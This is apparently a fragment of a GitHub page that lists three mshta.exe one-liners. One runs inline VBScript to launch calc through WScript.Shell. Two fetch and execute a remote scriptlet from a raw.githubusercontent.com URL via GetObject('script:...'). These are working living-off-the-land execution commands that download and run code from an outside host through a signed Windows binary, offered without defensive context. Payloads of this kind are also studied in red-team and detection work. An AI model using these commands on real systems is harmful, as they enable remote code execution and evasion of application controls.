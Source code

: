 `mshta.exe javascript:"<script/language=vbscript>createobject(\"WScript.Shell\").run(\"calc\")</script>"`
<br><br>
`mshta.exe javascript:GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js");close();`
<br><br>
`mshta.exe vbscript:Close(Execute("GetObject(""script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js"")"))`
